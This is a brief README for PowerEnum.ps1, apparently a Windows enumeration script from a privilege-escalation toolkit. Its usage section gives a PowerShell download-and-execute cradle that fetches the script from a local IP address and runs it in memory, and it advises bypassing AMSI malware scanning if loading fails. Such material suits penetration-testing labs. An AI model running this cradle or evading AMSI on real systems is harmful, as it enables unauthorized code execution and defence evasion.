 # Name
PowerEnum.ps1

## Usage
```
# Change the IP to load PowerView.ps1 in Line 17
# Bypass AMSI if couldn't load PowerView into memory

iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerEnum.ps1')
```

## Source
https://github.com/n000b3r/PrivEsc/tree/main/Windows/powerenum
